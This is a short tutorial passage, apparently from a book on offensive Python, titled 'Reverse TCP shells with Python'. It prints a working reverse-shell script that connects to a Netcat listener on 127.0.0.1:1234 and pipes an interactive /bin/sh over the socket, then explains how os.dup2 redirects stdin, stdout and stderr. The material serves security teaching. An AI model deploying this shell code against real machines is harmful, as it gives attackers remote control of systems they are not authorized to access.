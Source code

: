 
# Reverse TCP shells with Python

```python
#! /usr/bin/python3.5
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('127.0.0.1',1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])


```
It should be noted that OS.dup2 is used to create a duplicate of a file descriptor in Python. The stdin is defined to be file descriptor 0, stdout is defined to be file descriptor 1, and stderr is defined to be file descriptor 2. The code line OS.dup2(s.fileno(),0) indicates that we should create a duplicate of stdin and redirect the traffic to the socket file, which happens to be on the localhost and port 1234 (where Netcat is listening). 

Finally, we invoke the shell in interactive mode and since we are not specifying the stderr, stdin and stdout parameters, by default, the parameters will be sent to stdin and stdout at system level, which is again mapped to the socket for the scope of the program. For this reason, the preceding code snippet will open the shell in interactive mode and pass it on to the socket. All input is taken from the socket as stdin, and all output is passed to the socket via stdout. This can be validated by looking at the output produced.
